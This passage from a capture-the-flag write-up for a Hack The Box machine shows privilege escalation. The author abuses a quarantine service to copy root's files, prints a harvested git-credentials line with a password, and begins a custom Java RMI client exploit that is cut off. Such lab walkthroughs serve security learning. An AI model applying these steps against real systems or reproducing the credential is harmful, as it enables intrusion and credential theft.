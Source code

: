 Eventually, we'll see this on the `registry` machine:

```
[+] Bound to 9002
```

There'll also be a lot of hits on our listener port as it moves all the files from `/root` to the `/quarantine` folder. We will eventually find a `_root_.git-credentials` file:

<pre><code><strong>developer@registry:/quarantine$ ls *
</strong><strong>'quarantine-run-2023-07-29T14:33:15.287218947':
</strong>_root_.git-credentials

developer@registry:/quarantine/quarantine-run-2023-07-29T14:33:15.287218947$ cat _root_.git-credentials 
https://admin:52nWqz3tejiImlbsihtV@github.com
</code></pre>

We can then `su` to `root`:

<figure><img src="../../.gitbook/assets/image (4121).png" alt=""><figcaption></figcaption></figure>

## Final RMIClient Code

> This is not my code. I had help from another user for this machine because I was stuck. However, I did learn a lot from this code.&#x20;

```java
package com.htb.hosting.rmi;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.logging.Logger;
import java.io.File;
import java.io.Serializable;
import java.io.IOException;
import java.rmi.Remote;
import java.util.List;
import java.util.Arrays;
import java.util.ArrayList;
import java.nio.charset.StandardCharsets;
import java.io.IOException;
import java.io.UnsupportedEncodingException;
import java.nio.charset.StandardCharsets;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.spec.AlgorithmParameterSpec;
import java.security.spec.InvalidKeySpecException;
import java.security.spec.KeySpec;
import java.util.Base64;
import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.PBEKeySpec;
import javax.crypto.spec.PBEParameterSpec;

class AbstractFile implements Serializable {
    private static final long serialVersionUID = 2267537178761464006L;
```